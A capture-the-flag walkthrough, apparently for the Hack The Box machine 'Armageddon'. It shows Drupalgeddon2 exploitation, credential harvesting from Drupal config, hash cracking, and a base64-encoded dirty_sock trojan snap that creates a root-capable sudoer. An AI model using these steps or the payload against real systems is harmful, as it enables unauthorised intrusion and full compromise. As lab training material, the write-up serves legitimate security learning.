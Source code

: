 # Enum && Foothold
drupal 7 running on apache httpd
known cve
exploit/unix/webapp/drupal_drupalgeddon2

# User Priv Esc
Interesting files revealed in .gitignore
```bash
$ cat /var/www/html/.gitignore
# Ignore configuration files that may contain sensitive information.
sites/*/settings*.php

# Ignore paths that contain user-generated content.
sites/*/files
sites/*/private
```
database creds found in /var/www/html/sites/default/settings.php
```bash
$ cat sites/default/settings.php
...
drupal
drupaluser
CQHEy@9M*m23gBVj
...
```
use mysql client to login to database
```bash
$ mysql -h localhost -u drupaluser -p
use drupal
select * from users;
show;
```
These username and password hash were found
```bash
brucetherealadmin:admin@armageddon.eu
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```
Crack drupal 7 hash with hashcat
```bash
$ hashcat -a 0 -m 7900 hash.txt rockyou.txt
...
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt:booboo
...
```
ssh into box with these creds
```bash
$ ssh brucetherealadmin@10.10.10.233
```

# Root Priv Esc
```bash
$ sudo -l
(root) NOPASSWD:/usr/bin/snap install *
```
Using a trojan snap package here:
https://github.com/initstring/dirty_sock/blob/master/dirty_sockv2.py
```bash
$ python3 -c "print('''
aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/
/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh
ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5
TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERo
T2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawpl
Y2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFt
ZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZv
ciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5n
L2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZt
b2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAe
rFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUj
rkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAA
AAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2
XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5
RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA
AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw''' + 'A' 
\* 4256 + '==')" | base64 -d > hack.snap
```
Copy the file onto the box and install it with
```bash
$ sudo snap install --devmode hack.snap
```
Then the user dirty_sock with password dirty_sock will be added with sudoer privilege
```bash
$ su dirty_sock
$ whoami
dirty_sock
$ sudo su
# id
uid=0(root) gid=0(root) groups=0(root)
```
rooted